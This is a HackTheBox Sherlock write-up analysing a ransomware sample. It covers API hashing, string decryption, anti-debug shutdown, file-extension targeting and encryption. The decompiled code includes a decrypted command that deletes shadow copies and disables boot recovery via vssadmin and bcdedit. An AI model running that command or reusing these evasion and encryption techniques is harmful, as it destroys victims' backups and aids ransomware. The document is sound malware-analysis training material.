

# LovelyMalware [HackTheBox]

🧩 **Task**: https://app.hackthebox.com/sherlocks/Lovely%20Malware

📅 **Date of writeup**: January 9, 2025

> **An employee at NeirCyber Security discovered a suspicious file named employee_benefits.exe on their desktop. The employee found the file after returning from lunch and immediately reported it to the IT security team, suspecting that it could be malicious. The objective is to reverse engineer the file and dissect its inner workings. This is a warning that this Sherlock includes software that is going to interact with your computer and files. This software has been intentionally included for educational purposes and is NOT intended to be executed or used otherwise. Always handle such files in isolated, controlled, and secure environments. One the Sherlock zip has been unzipped, you will find a DANGER.txt file. Please read this to proceed.**
> 

# Introduction

Attached to the task is a ZIP archive that contains four files:

- malware.zip - archive with a single file: Update.exe
- cap.pcapng - traffic recording shortly before the file is launched
- Attachment.txt.naso - encrypted file
- DANGER.txt - warnings about the virus and advice to perform all manipulations with the file in an offline environment

The software used in this article is:

- **IDA Pro v8.3 (x64)**
- **CLion 2024.3**
- **WireShark v4.0.8**
- **HxD v2.5.0.0**
- **Detect It Easy v3.10**
- **System Informer v3.0.7578**
- **VMware Workstation v17.6.1**

## Contents

- 📝 `README.md` — this file
- 📁 `attachments/` — original challenge artifacts
- 📁 `files/` — decryptor for attachment and IDA database
- 📁 `images/` — screenshots and visuals from analysis


---

# Main content

So, initially we only need the executable file, as the others are of little value at this stage.

To get information about the format, bit rate and other characteristics, use the Detect It Easy utility. This will allow you to specify key parameters such as:

- the file's bitness (32-bit or 64-bit),
- execution format,
- possibly the compilers or packers used.


Detect It Easy

We can notice at once that we are dealing with an x64-bit application written in C++, that's all the information we are interested in for now, let's move on to static analysis of the file.

I am used to working in IDA, as it is practically a universal tool for disassembling and debugging applications, moreover, with the possibility of embedding your own scripts and plugins (which we will resort to a bit even within the framework of this article).

First of all, we go to the list of imports and rightly notice that there are quite few of them for such a program, which means that most likely all the key WinAPI functions have been hidden:


IDA imports list

We try to decompile the entry point (which IDA kindly found for us) and see the following code fragment:

```cpp
int __fastcall main(int argc, const char **argv, const char **envp)
{
  if ( (unsigned __int8)sub_140002CD0(argc, argv, envp) == 1 )
    sub_140004550(0i64);
  sub_140008010();
  sub_140002FE0();
  sub_140003430();
  sub_140002D10();
  sub_140008D40();
  sub_140003310();
  return 0;
}
```

Let's try to run the debugger (using the ScyllaHide plugin) and put a breakpoint on the first instruction, we immediately catch an exception (an attempt to write to a null memory address) and get to a function executing before the entry point:


IDA has stopped as a result of an exception

It's strange that something went wrong here, at first glance it doesn't seem like an anti-debugging technique or anything. Nevertheless, let's try to parse the function to try to continue execution while avoiding this error.

We can immediately improve the readability of this function, since we know that
**`Ldr->InMemoryOrderModuleList`**- is the beginning of the **`_LIST_ENTRY`** structure representing the initial node of a doubly-linked list. To simplify the analysis, let's assign the same type to the variable **`v12`**, which is a copy of the above-mentioned structure, by which the enumeration of items is started later.
Let's perform a few more transformations trying to understand what each function does and assigning the necessary types/names to local variables, as a result the code became much more readable:

```cpp
struct _LIST_ENTRY *__fastcall GetTargetModule(int targetHash)
{
  int i; // [rsp+20h] [rbp-88h]
  char *moduleName; // [rsp+28h] [rbp-80h]
  _LIST_ENTRY *currentNode; // [rsp+30h] [rbp-78h]
  _LDR_DATA_TABLE_ENTRY *ldrEntry; // [rsp+40h] [rbp-68h]
  UNICODE_STRING unicodeModuleName; // [rsp+48h] [rbp-60h] BYREF
  struct _PEB *peb; // [rsp+58h] [rbp-50h]
  struct _PEB_LDR_DATA *Ldr; // [rsp+60h] [rbp-48h]
  char *v9; // [rsp+68h] [rbp-40h]
  void *Block; // [rsp+70h] [rbp-38h]
  void *v11; // [rsp+78h] [rbp-30h]
  _LIST_ENTRY firstNode; // [rsp+80h] [rbp-28h] BYREF

  peb = NtCurrentPeb();
  Ldr = peb->Ldr;
  qmemcpy(&firstNode, &Ldr->InMemoryOrderModuleList, sizeof(firstNode));
  currentNode = &firstNode;
  do
  {
    ldrEntry = (_LDR_DATA_TABLE_ENTRY *)currentNode->Flink;
    qmemcpy(&unicodeModuleName, &currentNode->Flink[4].Blink, sizeof(unicodeModuleName));
    // Unicode -> ANSI
    v9 = (char *)operator new(((int)unicodeModuleName.Length >> 1) + 1);
    moduleName = v9;
    for ( i = 0; i < (int)unicodeModuleName.Length >> 1; ++i )
      moduleName[i] = unicodeModuleName.Buffer[i];
    moduleName[(int)unicodeModuleName.Length >> 1] = 0;
    // ------------
    if ( (unsigned int)GetHash(moduleName) == targetHash )
    {
      Block = moduleName;
      j_j_free(moduleName);
      return ldrEntry->InInitializationOrderLinks.Flink;
    }
    currentNode = currentNode->Flink;
    v11 = moduleName;
    j_j_free(moduleName);
  }
  while ( currentNode->Flink != firstNode.Flink );
  return 0i64;
}
```

I've already signed the `GetHash` custom function, it's quite small and easy to understand, so it wasn't hard to establish its purpose:

```cpp
__int64 __fastcall GetHash(const char *str)
{
  unsigned int result; // [rsp+0h] [rbp-18h]

  result = 0;
  while ( *str )
    result += ((result << 19) | ((unsigned __int64)result >> 13)) + *str++;
  return result;
}
```

In the debugging process, we can find, for example, the following correspondence:

> "KERNELBASE.dll" > 0xCDCA25E6
> 


Matching module name and hash

We move a bit higher up the call stack and get to this function (I renamed the variables beforehand based on the information I got during debugging):

```cpp
__int64 GetKernelBaseModule()
{
  __int64 kernelBaseModule; // rax

  kernelBaseModule = (__int64)GetTargetModule(0xCDCA25E6);
  KernelBaseModule = kernelBaseModule;
  return kernelBaseModule;
}
```

We see that the address is written to the global variable `KernelBaseModule`. Let's try to see the references to it, there is only one:

```cpp
_int64 __fastcall sub_7FF6CD435370(__int64 a1, __int64 a2, unsigned int a3)
{
  if ( !qword_7FF6CD43F310 )
    qword_7FF6CD43F310 = (__int64 (__fastcall *)(_QWORD, _QWORD, _QWORD))sub_7FF6CD433EC0(KernelBaseModule, 0x17E8A744);
  return qword_7FF6CD43F310(a1, a2, a3);
}
```

<aside>
💡

Here we find out the address of some function inside `KERNELBASE.dll` once and call it later, in fact it is a thunk-function.
Later it becomes clear that `sub_7FF6CD433EC0` runs through all functions of the module and searches for hash matches, which also complicates static analysis a bit.

</aside>

Okay, that's about the hidden API call, but for now let's deal with the exception thrown at the beginning.
We wait for a couple more calls to `GetTargetModule`, and we see that the exception occurs when trying to get the Unicode name of the module, which is obviously invalid:

> UNICODE_STRING = { Length = 0xFD06, MaximumLength = 0xFF, Buffer = 0x0 };
> 

---

Let's review the call stack at this point, now we can definitely see that this is initializing global variables, so we don't catch a breakpoint at the entry point:



Call stack before the exception

In the source code, it could look something like this:

```cpp
// Get module handles
auto KernelBaseModule = GetModuleByHash(0xCDCA25E6)
auto Kernel32Module = GetModuleByHash(0x860A6B00)
/* ... */

int main()
{
    /* ... */
    return 0;
}
```

We can also notice that the module address (`ldrEntry->InItializationOrderLinks->Flink`) is zero, why it is present in `Ldr->InMemoryOrderModuleList` is a mystery.


Invalid module info

Looking through the list of modules through **System Informer,** we can see that by the time the program tries to access the invalid module, we pass absolutely all DLLs loaded to the process.

Well, let's try to skip attempts to access the invalid module ourselves and see what happens next (later I installed a hook on this function and changed its implementation to skip the pointer to the null address) - this led us straight to the breakpoint that was set at the very beginning.


Success breakpoint in main()

It is noteworthy that calls to `GetModuleHandle` found almost none of the searched DLLs, so further correct execution of the program is in question.

Since we've arrived at the real entry point, it's likely that the single program instance execution check is somewhere in here.
Let's try to find the name of the mutex we're asked in one of the questions, I'll move inside the called functions and debug their action in real time.

The first thing that catches our eye is the decoding of the string at address `0x7FF6CD43EEF8`:

> sub_7FF6CD433550((__int64)&unk_7FF6CD43EEF8, 0x16u);
> 

Looking inside the function, intuitively signing and defining variables, we get the following:

```cpp
__int64 __fastcall sub_7FF6CD433550(_BYTE *buffer, unsigned int size)
{
  __int64 result; // rax
  unsigned int i; // [rsp+0h] [rbp-18h]

  i = 0;
  result = (unsigned int)byte_7FF6CD43F128[0];
  if ( byte_7FF6CD43F128[0] )
  {
    while ( 1 )
    {
      result = size;
      if ( i >= size )
        break;
      buffer[i] -= i;
      buffer[i] ^= byte_7FF6CD43F128[i % 8];
      ++i;
    }
  }
  return result;
}
```

Or, bringing it to an even more readable form:

```cpp
int64_t decryptString(char* buffer, unsigned int size)
{
    auto& flag = byte_7FF6CD43F128[0];

    if (!flag) return flag;

    for (unsigned int i = 0; i < size; ++i)
    {
        buffer[i] -= i;
        buffer[i] ^= flag[i % 8];
    }

    return size;
}
```

This function is used quite a few times in the code:


decryptString usages

Let's see what lies at address `byte_7FF6CD43F128`:

```cpp
// char loveher_key[16];
.data:00007FF6CD43F128 byte_7FF6CD43F128 db 'L', 'o', 'v', 'e', '_', 'H', 'e', 'r', 0, 0, 0, 0, 0, 0, 0, 0
```

The string `“Love_Her”` is apparently used to decrypt some of the strings used in the virus. Let's create a standalone version of the above function and try to decrypt the rest of the program lines encrypted in this way:


Trying to decrypt another strings

Yes, the function really decrypts the data, let's perform the same manipulations for all other strings (copy the first argument from all `decryptString` calls). As a result, we get the following list:

```cpp
-----
advapi32
-----
user32.dll
-----
shell32.dll
-----
crypt32.DLL
-----
c|w{�ko�0g+�׫vʂ�}�YG��Ԣ���r����&6?��4���q�1�#������'�u	�,nZ�R;ֳ)�/�S�
-----
R	j�06�8�@������|�9��/��4�CD����T{�2��#=�L�B��N.�f(�$�v[�Im��%r��d�h�Ԥ\�]e��lpHP����^FW�����ث
-----
runas
-----
shlwapi
-----
notepad.exe
-----
ws2_32
-----
1
-----
"{'Name' : %s , 'Computer' : %s , 'Proc' : %s , 'Key' : %s , 'Id' : %s}"
-----
I
-----
cmd.exe
-----
/c vssadmin.exe Delete Shadows /All /Quiet & bcdedit /set {default} recoveryenabled No & bcdedit /set {default} bootstatuspolicy ignoreallfailures
-----
open
-----
.
-----
SeShutdownPrivilege
-----
explorer.ex
-----
Users\*
```

Some of them were obviously decoded incorrectly (consisting of a single character, despite taking up much more space in encrypted form).
Lines 5 and 6 also have unprintable characters and must need additional processing, or be some other data type.

Let's sign all the encrypted strings in IDA to distinguish between them.
Now let's go back to that decrypted string, thanks to which we learned about the **`decryptString`** function:

```cpp
.data:00007FF6CD43EEF8 aGlobalOn3S1d3d db 'Global\On3_S1d3d_hard',0
```

See where it's being used:

```cpp
decryptString(aGlobalOn3S1d3d, 0x16u);
sub_7FF6CD434840(0i64, 1u, (__int64)aGlobalOn3S1d3d);
__int64 __fastcall sub_7FF6CD434840(__int64 a1, unsigned __int8 a2, __int64 a3)
{
  if ( !qword_7FF6CD43F2C8 )
    qword_7FF6CD43F2C8 = (__int64 (__fastcall *)(_QWORD, _QWORD, _QWORD))GetFunctionFromModuleByHash(
                                                                           Kernel32Module,
                                                                           0x9774399D);
  return qword_7FF6CD43F2C8(a1, a2, a3);
}
```

Here we call a function (in a way we already know) from the `kernel32.dll` library
Already at this stage we can guess that its call is very similar to:

> CreateMutex(NULL, TRUE, "Global\On3_S1d3d_hard")
> 

But we'll continue executing the code to see what will fit in `qword_7FF6CD43F2C8`, and yes, execution did move here:

```cpp
KERNEL32.DLL:00007FFEAD046C50 kernel32_CreateMutexA:
KERNEL32.DLL:00007FFEAD046C50                 jmp     cs:off_7FFEAD07A7D8
```

Go to the second function (right after checking for an already running instance of the program), and after a while we get to this code fragment:

```cpp
char sub_7FF6CD437EA0()
{
  int v1; // [rsp+20h] [rbp-398h]
  __int64 v2; // [rsp+28h] [rbp-390h]
  __int64 v3; // [rsp+30h] [rbp-388h]
  __int64 v4; // [rsp+38h] [rbp-380h]
  __int64 v5; // [rsp+40h] [rbp-378h]
  __int64 v6; // [rsp+48h] [rbp-370h]
  int v7[144]; // [rsp+50h] [rbp-368h] BYREF
  char v8[272]; // [rsp+290h] [rbp-128h] BYREF

  GetMagicValue(0x543Aui64, 1u);
  GetMagicValue_0(0xE1A7ui64, 3u);
  v5 = sub_7FF6CD435900();
  v1 = sub_7FF6CD4362D0(v5);
  v3 = sub_7FF6CD436130(2i64, 0i64);
  v7[0] = 568;
  if ( !(unsigned int)sub_7FF6CD4361B0(v3, v7) )
    return 0;
  while ( v7[2] != v1 && (unsigned int)sub_7FF6CD436240(v3, v7) )
    ;
  v6 = sub_7FF6CD436400(4096i64, 0i64, (unsigned int)v7[8]);
  sub_7FF6CD436350(v6, 0i64, v8, 260i64);
  decryptString(byte_7FF6CD43F0F8, 0xDu);
  v4 = sub_7FF6CD437B00();
  v2 = sub_7FF6CD433B90(v4, byte_7FF6CD43F0F8);
  sub_7FF6CD433760(v4);
  if ( (unsigned __int8)sub_7FF6CD433C60(v8, v2, 24i64) )
  {
    sub_7FF6CD433760(v2);
    return 1;
  }
  else
  {
    sub_7FF6CD433760(v2);
    return 0;
  }
}
```

I have already signed the `GetMagicValue` function (or rather two), apparently they do some manipulations with a number, but the value they return is not used anywhere, so we just skip them, we'll assume that this is an attempt to complicate our analysis :)

Then we make some API calls (yes, in the way we already know), we just continue execution and see what addresses are put there.

After a while the picture becomes clearer by itself (~~I didn't realize yet that after a while it would disable my virtual machine, why I don't read assignments in advance...~~):

```cpp
Process = GetCurrentProcess_0();
ProcessId = GetProcessId(Process);
hSnapshot = CreateToolhelp32Snapshot(2u, 0);
pe.dwSize = 568;
if ( !Process32FirstW(hSnapshot, &pe) ) return 0;
while ( pe.th32ProcessID != ProcessId && Process32NextW(hSnapshot, &pe) ); // get PROCESSENTRY32W of current process
hParentProcess = OpenProcess(0x1000u, 0, pe.th32ParentProcessID);
GetModuleFileNameExA(hParentProcess, 0i64, a1, 260i64);
decryptString(aExplorerExe, 0xDu);
v4 = sub_7FF6CD437B00();
var_390 = (char *)sub_7FF6CD433B90(v4, (__int64)aExplorerExe);
sub_7FF6CD433760(v4);
if ( compare(a1, var_390, 24) )
{
    sub_7FF6CD433760(var_390);
    return 1;
}
else
{
    sub_7FF6CD433760(var_390);
    return 0;
}
```

It is worth noting that during debugging the `GetTargetModule` function was called several more times with a much larger number of libraries (also manually skipped attempts to access the null address).

To simplify further work with parsing WinAPI functions, let's write a small C++ application and get the hash of all module functions by their names.
As a basis, let's take `GetFunctionFromModuleByHash` function, but rewrite it to output hashes instead of checking them:

```cpp
int64_t GetModuleHashes(int64_t moduleHandle)
{
    unsigned int i; // [rsp+20h] [rbp-48h]
    DWORD *v4; // [rsp+28h] [rbp-40h]
    unsigned int v5; // [rsp+34h] [rbp-34h]
    int64_t v6; // [rsp+48h] [rbp-20h]
    int64_t v7; // [rsp+50h] [rbp-18h]
    int64_t v8; // [rsp+58h] [rbp-10h]

    v4 = (DWORD*)(*(unsigned int *)(moduleHandle + *(int *)(moduleHandle + 60) + 136) + moduleHandle);
    v5 = v4[6];
    v6 = moduleHandle + (unsigned int)v4[8];
    v7 = moduleHandle + (unsigned int)v4[9];
    v8 = moduleHandle + (unsigned int)v4[7];
    for ( i = 0; i < v5; ++i )
    {
        auto functionName = (const char *)(*(unsigned int *)(v6 + 4i64 * i) + moduleHandle);
        std::cout << functionName << " (0x" << std::hex << std::uppercase << (unsigned int)GetHash(functionName) << ")" << std::endl;
    }
    return 0i64;
}

int main()
{
    HMODULE hKernel32 = GetModuleHandle(TEXT("kernel32.dll"));

    if (hKernel32 != nullptr) {
        GetModuleHashes(reinterpret_cast<int64_t>(hKernel32));
    }
}
```

Now we can get hashes of all functions in a convenient way:

> AcquireSRWLockExclusive (0x2A10FD6B)
AcquireSRWLockShared (0x6DA1B93D)
ActivateActCtx (0xAB758C46)
ActivateActCtxWorker (0xA5276C54)
ActivatePackageVirtualizationContext (0x9024297D)
AddAtomA (0xFD9FE96E)
AddAtomW (0xFD9FE984)
AddConsoleAliasA (0xF0FA25B7)
AddConsoleAliasW (0xF0FA25CD)
AddDllDirectory (0x47A44C88)
AddIntegrityLabelToBoundaryDescriptor (0xFFA49B35)
AddLocalAlternateComputerNameA (0x4DE1D139)
…
> 

Let's compare the result with the function we already know:

![CreateMutexA hash [IDA]](images/10_ida_createmutex_hash.png)

CreateMutexA hash [IDA]

![CreateMutexA hash [Application]](images/11_app_createmutex_hash.png)

CreateMutexA hash [Application]

Also, in case we come across an unknown hash of one of the DLLs, we will need to know it too, so we will generate them too (using the list of the most frequently used DLLs), just in case we generate them in three variations, because the program does not always use only uppercase:

> ADVAPI32.DLL (0xB031A30E)
ADVAPI32.dll (0xB331AB6E)
advapi32.dll (0xF8E5E2D4)
KERNEL32.DLL (0x2200CF35)
KERNEL32.dll (0x2500D795)
kernel32.dll (0xA466D9CF)
…
> 

As you can see, everything matches. Now we can sign all API functions not by executing the virus code on the machine, but by parsing it statically.

Let's return to the previous code: as we can understand from the context, this is a function for debugger detection. If we dig a little further, using the methods described above (we won't mention it further), we can get a very readable code of one of the functions:

```cpp
_BOOL8 __fastcall AdjustShutdownPrivileges(HANDLE processHandle)
{
  void *TokenHandle[3]; // [rsp+20h] [rbp-18h] BYREF

  if ( !advapi32Module )
    GetAdvapi32Module();
  if ( !OpenProcessToken(processHandle, 0x28u, TokenHandle) )
    return 0i64;
  decryptString(aSeShutdownPrivilege, 0x14u);
  return thunk_AdjustTokenPrivileges(TokenHandle[0], aSeShutdownPrivilege, 1);
}
```

As you can see, it tries to get privileges to shut down the PC, in case it detects the fact of using the debugger, and afterwards, if the privileges are successfully changed, it calls the `ExitWindowsEx(EWX_SHUTDOWN | EWX_FORCE, NULL)` function:

```cpp
BOOL __fastcall ShutdownPCForDebugger(bool debuggerNotDetected)
{
  BOOL result; // eax
  int v2; // [rsp+20h] [rbp-28h]
  int v3; // [rsp+24h] [rbp-24h]
  HANDLE CurrentProcess_0; // [rsp+30h] [rbp-18h]

  result = debuggerNotDetected;
  if ( !debuggerNotDetected )
  {
    CurrentProcess_0 = GetCurrentProcess_0();
    v2 = 2;
    do
      v3 = v2--;
    while ( v3 > 0 );
    result = AdjustShutdownPrivileges(CurrentProcess_0);
    if ( result )
    {
      if ( !user32ModuleHandle )
        GetUser32ModuleHandle_0();
      return ExitWindowsEx(5u, 0);
    }
  }
  return result;
}
```

Yes, the use of an argument for this function looks rather strange, since it could have been placed behind its call, but let's assume that this is another attempt to complicate our analysis.

So, we see that all the code for detecting the debugger and shutting down the PC is contained in one function:

```cpp
__int64 ShutdownForEnabledDebugger()
{
  unsigned __int8 isDebuggerUsed; // [rsp+20h] [rbp-18h]
  int v2[5]; // [rsp+24h] [rbp-14h] BYREF

  v2[0] = 0;                                    // good attempt..
  isDebuggerUsed = CheckDebugger();
  sub_7FF6CD437B60(v2);                         // useless calculates
  ShutdownPCForDebugger(isDebuggerUsed);
  return sub_7FF6CD437C20(v2);                  // useless value, not used
}
```

We could just nop its call, but that would probably prevent some DLLs from loading (since there are many places where this happens), so it would be more practical to nop exactly the instruction with the PC shutdown (even possibly leaving privilege acquisition)

The following function at the entry point performs these actions:

```cpp
BOOL8 RunProcessAtLowIntegrity()
{
  _BOOL8 result; // rax
  SHELLEXECUTEINFOA *pExecInfo; // [rsp+20h] [rbp-28h]
  CHAR *lpFilename; // [rsp+28h] [rbp-20h]
  HANDLE CurrentProcess_0; // [rsp+30h] [rbp-18h]

  if ( !qword_7FF6CD43EAC8 )
    GetAdvapi32Module();
  if ( !qword_7FF6CD43F110 )
    GetUser32ModuleHandle_0();
  CurrentProcess_0 = GetCurrentProcess_0();
  result = IsLowIntegrityLevel(CurrentProcess_0);
  if ( result )
  {
    lpFilename = (CHAR *)AllocateMemoryFromHeap(0x104u);
    GetModuleFileNameA(0i64, lpFilename, 0x104u);
    pExecInfo = (SHELLEXECUTEINFOA *)AllocateMemoryFromHeap(0x70u);
    pExecInfo->cbSize = 112;
    pExecInfo->fMask = 0;
    decryptString(aOpen, 6u);
    pExecInfo->lpVerb = aOpen;
    pExecInfo->lpFile = lpFilename;
    pExecInfo->nShow = 0;
    pExecInfo->hwnd = (HWND)GetForegroundWindow();
    while ( !ShellExecuteExA(pExecInfo) )
      ;
    FreeHeapMemory((__int64)pExecInfo);
    FreeHeapMemory((__int64)lpFilename);
    ExitProcess(0);
  }
  return result;
}
```

Just recreates the process with a reduced `Integrity` level, it's not that important, let's move on to the next one:

```cpp
__int64 DestroyRecoveryAndBackup()
{
  SHELLEXECUTEINFOA *pExecInfo; // [rsp+20h] [rbp-18h]

  decryptString(aCmdExe, 8u);
  // /c vssadmin.exe Delete Shadows /All /Quiet &
  // bcdedit /set {default} recoveryenabled No &
  // bcdedit /set {default} bootstatuspolicy ignoreallfailures
  decryptString(aVssAdmin, 0x92u);
  decryptString(aOpen_0, 5u);
  pExecInfo = (SHELLEXECUTEINFOA *)AllocateMemoryFromHeap(0x70u);
  pExecInfo->cbSize = 112;
  pExecInfo->fMask = 0;
  pExecInfo->lpVerb = aOpen_0;
  pExecInfo->lpFile = aCmdExe;
  pExecInfo->nShow = 0;
  pExecInfo->hwnd = GetForegroundWindow();
  pExecInfo->lpParameters = aVssAdmin;
  ShellExecuteExA(pExecInfo);
  FreeHeapMemory((__int64)pExecInfo);
  return RtlZeroMemory_0((__int64)aVssAdmin, 146i64);
}
```

This function looks more interesting already - it uses its rights to delete shadow copy snapshots and perform other actions aimed at preventing system recovery.

---

Moving on, the first thing the next function does is allocate space in the heap for some data generated in the rantime:

```cpp
qword_7FF749A7F330 = sub_7FF749A78770();

__int64 sub_7FF749A78770()
{
  unsigned int v0; // eax
  unsigned int v2; // [rsp+20h] [rbp-28h]
  char *Str; // [rsp+28h] [rbp-20h]
  __int64 MemoryFromHeap; // [rsp+30h] [rbp-18h]

  v2 = 0;
  MemoryFromHeap = AllocateMemoryFromHeap(0x118u);
  while ( v2 < 0x24 )
  {
    Str = (char *)AllocateMemoryFromHeap(6u);
    sub_7FF749A73900(Str, *(&off_7FF749A7E2E0 + v2), 5i64);
    v0 = strlen(Str);
    decryptString(Str, v0);
    *(_QWORD *)(MemoryFromHeap + 8i64 * v2++) = Str;
  }
  return MemoryFromHeap;
}
```

Let's try to rewrite this function for use in an offline environment and generate this data ourselves.

**`off_7FF749A7E2E0`** - address to the first line, addresses to other lines are located one after another.

<aside>
💡

It is noteworthy that despite the use of pointers - the strings themselves are also arranged one after another, which simplifies our task a bit

</aside>

Let's make a data dump from the memory area with strings: `[0xFF749A7BA90 - 0x7FF749A7BBB4]`

```nasm
00007FF749A7BA90  00 00 00 00 00 00 00 00  00 00 00 00 3C 0C 12 68   ...........<..h
00007FF749A7BAA0  00 00 00 00 28 01 17 68  00 00 00 00 28 01 17 0B  ....(..h....(...
00007FF749A7BAB0  63 00 00 00 28 01 17 20  63 00 00 00 24 1C 1D 68  c...(.. c...$..h
00007FF749A7BAC0  00 00 00 00 24 1C 1D 0C  63 00 00 00 38 18 04 68  ....$...c...8..h
00007FF749A7BAD0  00 00 00 00 3E 1C 12 68  00 00 00 00 34 03 1C 68  ....>..h....4..h
00007FF749A7BAE0  00 00 00 00 2F 1D 02 68  00 00 00 00 23 0C 07 68  ..../..h....#..h
00007FF749A7BAF0  00 00 00 00 34 04 07 68  00 00 00 00 34 04 07 0B  ....4..h....4...
00007FF749A7BB00  63 00 00 00 34 04 07 20  63 00 00 00 34 04 04 0B  c...4.. c...4...
00007FF749A7BB10  63 00 00 00 34 04 04 20  63 00 00 00 2E 03 08 68  c...4.. c......h
00007FF749A7BB20  00 00 00 00 26 20 13 68  00 00 00 00 21 20 44 68  ....& .h....! Dh
00007FF749A7BB30  00 00 00 00 21 20 47 68  00 00 00 00 23 0C 08 68  ....! Gh....#..h
00007FF749A7BB40  00 00 00 00 3C 01 04 68  00 00 00 00 3C 01 04 0B  ....<..h....<...
00007FF749A7BB50  63 00 00 00 3C 01 04 20  63 00 00 00 3C 20 04 68  c...<.. c...< .h
00007FF749A7BB60  00 00 00 00 3C 20 04 0B  63 00 00 00 3C 20 04 20  ....< ..c...< .
00007FF749A7BB70  63 00 00 00 36 07 08 68  00 00 00 00 7B 16 78 00  c...6..h....{.x.
00007FF749A7BB80  38 0F 06 68 00 00 00 00  26 20 15 05 63 00 00 00  8..h....& ..c...
00007FF749A7BB90  3E 0F 06 68 00 00 00 00  38 03 08 68 00 00 00 00  >..h....8..h....
00007FF749A7BBA0  3B 20 14 68 00 00 00 00  3B 20 45 68 00 00 00 00  ; .h....; Eh....
00007FF749A7BBB0  3C 02 13 68
```

Let's convert this data to a C-array, and write code based on what we saw in the disassembler, but working with data on the stack instead of the heap (it's trivially easier)

```nasm
std::vector<std::vector<unsigned char>> encryptedExtensions = {
    {0x3c, 0x0c, 0x12, 0x68, 0x00},
    {0x28, 0x01, 0x17, 0x68, 0x00},
    {0x28, 0x01, 0x17, 0x0b, 0x63, 0x00},
    {0x28, 0x01, 0x17, 0x20, 0x63, 0x00},
    {0x24, 0x1c, 0x1d, 0x68, 0x00},
    {0x24, 0x1c, 0x1d, 0x0c, 0x63, 0x00},
    {0x38, 0x18, 0x04, 0x68, 0x00},
    {0x3e, 0x1c, 0x12, 0x68},
    {0x34, 0x03, 0x1c, 0x68, 0x00},
    {0x2f, 0x1d, 0x02, 0x68, 0x00},
    {0x23, 0x0c, 0x07, 0x68, 0x00},
    {0x34, 0x04, 0x07, 0x68, 0x00},
    {0x34, 0x04, 0x07, 0x0b, 0x63, 0x00},
    {0x34, 0x04, 0x07, 0x20, 0x63, 0x00},
    {0x34, 0x04, 0x04, 0x0b, 0x63, 0x00},
    {0x34, 0x04, 0x04, 0x20, 0x63, 0x00},
    {0x2e, 0x03, 0x08, 0x68, 0x00},
    {0x26, 0x20, 0x13, 0x68, 0x00},
    {0x21, 0x20, 0x44, 0x68, 0x00},
    {0x21, 0x20, 0x47, 0x68, 0x00},
    {0x23, 0x0c, 0x08, 0x68, 0x00},
    {0x3c, 0x01, 0x04, 0x68, 0x00},
    {0x3c, 0x01, 0x04, 0x0b, 0x63, 0x00},
    {0x3c, 0x01, 0x04, 0x20, 0x63, 0x00},
    {0x3c, 0x20, 0x04, 0x68, 0x00},
    {0x3c, 0x20, 0x04, 0x0b, 0x63, 0x00},
    {0x3c, 0x20, 0x04, 0x20, 0x63, 0x00},
    {0x36, 0x07, 0x08, 0x68, 0x00},
    {0x7b, 0x16, 0x78, 0x00},
    {0x38, 0x0f, 0x06, 0x68, 0x00},
    {0x26, 0x20, 0x15, 0x05, 0x63, 0x00},
    {0x3e, 0x0f, 0x06, 0x68, 0x00},
    {0x38, 0x03, 0x08, 0x68, 0x00},
    {0x3b, 0x20, 0x14, 0x68, 0x00},
    {0x3b, 0x20, 0x45, 0x68, 0x00},
    {0x3c, 0x02, 0x13, 0x68, 0x00}
};

for (const auto& encryptedExtension : encryptedExtensions)
{
    std::string extension(encryptedExtension.begin(), encryptedExtension.end());
    auto v0 = extension.length() - 1;

    // decrypt string impl
    {
        const char key[16] = "Love_her";

        const auto size = v0;
        for (unsigned int i = 0; i < size; ++i)
        {
            extension[i] -= i;
            extension[i] ^= key[i % 8];
        }
    }

    std::cout << extension << " ";
}
```

As you may have noticed while I was writing this code, I already realized what exactly we are decrypting are the file extensions that the virus apparently collects from the user's computer, here is the console output:

```nasm
pdf   doc   docm   docx   htm   html   txt   rtfh xml   csv   ods   xls   xlsm   xlsx   xltm   xltx   bmp   jpg   mp4
mp3   odp   pot   potm   potx   ppt   pptm   pptx   zip   7z   tar   jpeg   rar   tmp   wpd   wp5   png
```

We look further, and after some modifications we get a more or less readable version of the function:

```cpp
__int64 EncryptFilesData()
{
  int v0; // eax
  int v1; // eax
  BOOL v2; // r8d
  char *aWindowsUsers; // [rsp+20h] [rbp-248h]
  WCHAR *folderPath; // [rsp+28h] [rbp-240h]
  LPSTR WindowsDirectoryA; // [rsp+30h] [rbp-238h]
  char v7[520]; // [rsp+40h] [rbp-228h] BYREF

  if ( !shlwapiModule )
    GetShlwapiModule();
  AllocateFileEncryptionKey();
  targetExtensions = GetTargetFileExtensionsAddress();
  DecryptDotNasoString();
  LoadMutex();
  encryptFileThreads = CreateEncryptFileThreads();
  memset(v7, 0, sizeof(v7));
  WindowsDirectoryA = thunk_GetWindowsDirectoryA();
  decryptString(aUsers, 9u);
  aWindowsUsers = concat(WindowsDirectoryA, aUsers);
  v0 = strlen(aWindowsUsers);
  folderPath = AllocateMemoryFromHeap(2 * v0 + 2);
  v1 = strlen(aWindowsUsers);
  ASCIIToWchar(aWindowsUsers, folderPath, v1);
  FreeHeapMemory(aWindowsUsers);
  sub_7FF749A78960(folderPath);
  encryptFileMutex = 0;
  LOBYTE(v2) = 1;
  WaitForMultipleObjects(nCount, encryptFileThreads, v2, 0xFFFFFFFF);
  USER_KEY = GetEncryptedKeyAsBase64();
  FreeHeapMemory(encryptFileThreads);
  RtlZeroMemory_0(fileEncryptionKey, 32i64);
  FreeHeapMemory(fileEncryptionKey);
  FreeHeapMemory(folderPath);
  return UnloadMutex();
}
```

Here, the program first decrypts and puts all the necessary file extensions in a specific memory location, then decrypts the string that stores the “.naso” extension, which in turn is later used as an extension for the encrypted files.

The virus then creates several threads that are most likely to encrypt the files. Here we can also see XOR applied to the key used for encryption and its conversion to Base64 (at this point I didn't know what this function did yet, so here is a snippet from the current .i64 base):

```cpp
LPSTR GetEncryptedKeyAsBase64()
{
  unsigned int i; // [rsp+34h] [rbp-24h]
  DWORD pcchString; // [rsp+38h] [rbp-20h] BYREF
  LPSTR pszString; // [rsp+40h] [rbp-18h]

  if ( !crypt32Module )
    GetCrypt32Module();
  pcchString = 0;
  for ( i = 0; i < 32; ++i )
    fileEncryptionKey[i] ^= 0xBBu; // xor key before convert it to base64
  if ( !CryptBinaryToStringA(
          fileEncryptionKey,
          0x20u,
          0x40000001u,                          
          0i64,
